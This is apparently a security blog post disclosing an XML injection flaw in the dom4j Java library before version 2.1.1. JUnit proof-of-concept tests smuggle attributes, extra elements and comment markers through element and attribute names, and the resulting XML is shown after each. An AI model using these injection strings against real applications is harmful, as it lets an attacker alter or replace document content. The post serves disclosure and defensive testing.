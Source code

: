 +++
title = "XML Injection in dom4j library"
description = "Brief summary of a vulnerabitity on dom4j by inject XML on element and attribute names"
date = 2018-07-24T22:15:43+10:00
draft = false
toc = false
categories = ["breaking"]
tags = ["xml", "cve", "injection"]
+++

[dom4j](https://dom4j.github.io/) is a well known java library to process and generate XML files.

In version [2.1.1](https://github.com/dom4j/dom4j/releases/tag/version-2.1.1) they fixed an issue regarding a [XML injection on element and attribute names](https://github.com/dom4j/dom4j/issues/48).

Prior to this version, the values of the elements were properly sanitized, but not the element itself. Same for attribute names. Let me show an example with a test

{{< highlight java "linenos=inline,hl_lines=6 8 20" >}}
    @Test
    public void testXMLInjectionOnElementName() throws IOException {
        Document document = DocumentHelper.createDocument();
        Element root = document.addElement("root");

        String injectedAttribute = "age=\"20\"";

        Element author = root.addElement("author " + injectedAttribute)
                .addAttribute("name", "James")
                .addAttribute("location", "UK");

        Element author2 = root.addElement("author")
                .addAttribute("name", "Bob")
                .addAttribute("location", "US")
                .addText("Bob McWhirter");

        writeFile(document);

        assertThat(document.asXML(), containsString(injectedAttribute));
    }
{{< / highlight >}}

Result:
{{< highlight xml >}}  
<?xml version="1.0" encoding="UTF-8"?>

<root>
  <author age="20" name="James" location="UK"/>
  <author name="Bob" location="US">Bob McWhirter</author>
</root>
{{< / highlight >}}

On `line 6` lives the attribute we want to inject. The injection happens on `line 8` by adding our attribute to the element name. And finally on `line 20`, the test asserts the line was successfully injected. The injection works successfully in case the element is a self closing element (i.e the element does not have any values). If the element has values the injected attribute is also written in the closing element which breaks any XML parsing.

Things get a bit more interesting when playing around with attributes. It is possible to inject new elements by adding them as attribute names, let me show another test as an example.

{{< highlight java "linenos=inline,hl_lines=6 9 20">}}
    @Test
    public void testXMLInjectionOnAttributeName() throws IOException {
        Document document = DocumentHelper.createDocument();
        Element root = document.addElement("root");

        String injectedElement = "<author name=\"hack\" location=\"World\">true</author>";

        Element author = root.addElement("author")
                .addAttribute("name=\"hack\" location=\"World\">true</author><author name", "James")
                .addAttribute("location", "UK")
                .addText("James Strachan");

        Element author2 = root.addElement("author")
                .addAttribute("name", "Bob")
                .addAttribute("location", "US")
                .addText("Bob McWhirter");

        writeFile(document);

        assertThat(document.asXML(), containsString(injectedElement));
    }
{{< / highlight >}}

Result:
{{< highlight xml>}}
<?xml version="1.0" encoding="UTF-8"?>

<root>
  <author name="hack" location="World">true</author><author name="James" location="UK">James Strachan</author>
  <author name="Bob" location="US">Bob McWhirter</author>
</root>

{{< / highlight >}}

This test is very similar to the previous one. Except that instead to add new attributes to an element, we are adding new elements. Also, we are doing that by inject into attribute names, which means we do not have the constraint anymore about self closing elements! The injection through attribute names are very powerful, an attacker could potentially add as many elements as they want.

Not only that, an attacker could comment other elements as well and effectively replacing them! Here comes the test:

{{< highlight java "linenos=inline,hl_lines=6 9 14 20">}}
    @Test
    public void testCommentOtherElementsOnAttributeName() throws IOException {
        Document document = DocumentHelper.createDocument();
        Element root = document.addElement("root");

        String injectedElement = "<author name=\"hack\" location=\"World\">true</author>";

        Element author = root.addElement("author")
                .addAttribute("name=\"hack\" location=\"World\">true</author><!-- author name", "James")
                .addAttribute("location", "UK")
                .addText("James Strachan");

        Element author2 = root.addElement("author")
                .addAttribute("--><author name", "Bob")
                .addAttribute("location", "US")
                .addText("Bob McWhirter");

        writeFile(document);

        assertThat(document.asXML(), containsString(injectedElement));
    }
{{< / highlight >}}

Result:

{{< highlight xml>}}
<?xml version="1.0" encoding="UTF-8"?>

<root>
  <author name="hack" location="World">true</author><!-- author name="James" location="UK">James Strachan</author>
  <author --><author name="Bob" location="US">Bob McWhirter</author>
</root>
{{< / highlight >}}

It is common place in an application to hardcode element names and attribute names, so this bug is not very likely to be exploitable. However, if an attacker somehow can inject whatever she wants on element and attribute names, she can possibly control the whole content of the file.

Thanks to [@FilipJirsak](https://github.com/FilipJirsak) for the quick response and release of the fixed version. Version 2.1.1 and above are fixed and do not have have the issue anymore. Versions below 2.1.1, including the legacy versions ( < 1.6) are also vulnerable.

## References

- https://github.com/dom4j/dom4j/issues/48 - Github issue describing the bug
- https://github.com/mario-areias/dom4j-xml-injection - Repository with the code described on this blog post
- https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008) - Test for XML injection from OWASP